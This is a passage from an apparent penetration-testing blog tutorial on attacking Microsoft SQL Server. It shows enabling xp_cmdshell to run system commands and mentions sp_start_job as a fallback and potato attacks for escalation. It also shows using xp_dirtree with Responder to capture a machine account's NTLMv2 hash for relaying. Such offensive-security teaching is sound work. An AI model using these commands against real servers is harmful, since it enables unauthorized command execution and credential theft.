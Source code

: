 !!!
If connecting to MSSQL instance via domain joined user, make sure to include the `-windows-auth` flag. If the flag is missing, the impacket script will tolerate the credentials on local level.
!!!

2. Execute commands

`enable_xp_cmdshell`

`xp_cmdshell whoami`

![Executing system level commands via `xp_cmdshell` stored procedure](shell.png)

In this case, the database is running as `nt authority\local service`. Always check the user behind the MSSQL process, as you later will find how handy this can be. However, in this case, we are effectively `NT AUTHORITY\SYSTEM` since the service accounts has dangerous local privileges which can be abused with for example potato attacks. If you want to learn more about this hit me up in [Discord](https://discord.gg/bgSpdheEgu), so I can blog about this topic.

!!!
Sometimes `xp_cmdshell` might be explicitly hardened (disabled), in such cases, you may want to try executing commands via the `sp_start_job` option from `impacket-mssqlclient`.
!!!


### Attack 2 - Relaying

Here is where it is getting more interesting. Imagine for this demo that we have compromised a user who is not sysadmin over any database, and the `xp_cmdshell` stored procedure is disabled, as well as the `sp_start_job`. Obviously one thing that we can do is to scrape the database for sensitive content, but is there any other attack vector? Yes!

As previously explained, the `xp_dirtree` stored procedure is used to read local or remote files over SMB. This procedure is handy when it comes to easy database migration, but can cause some issues. Since the `xp_dirtree` is used for remote SMB operations, by setting up responder with `responder -I <interface>` we can grap the NTLMv2 hash of the machine account. To trigger authentication, it is enough to just do `xp_dirtree \\ip\share\something` from `impacket-mssqlclient` shell. Usually, the database server is running as `NT AUTHORITY \ SERVICE` user. This will cause the NTLMv2 hash of the machine account to be captured.

However, sometimes the database service can be misconfigured to operate from the context of privileged domain account. This setting is located at `SQL SERVER CONFIGURATION MANAGER -> DB Instance -> Log On`
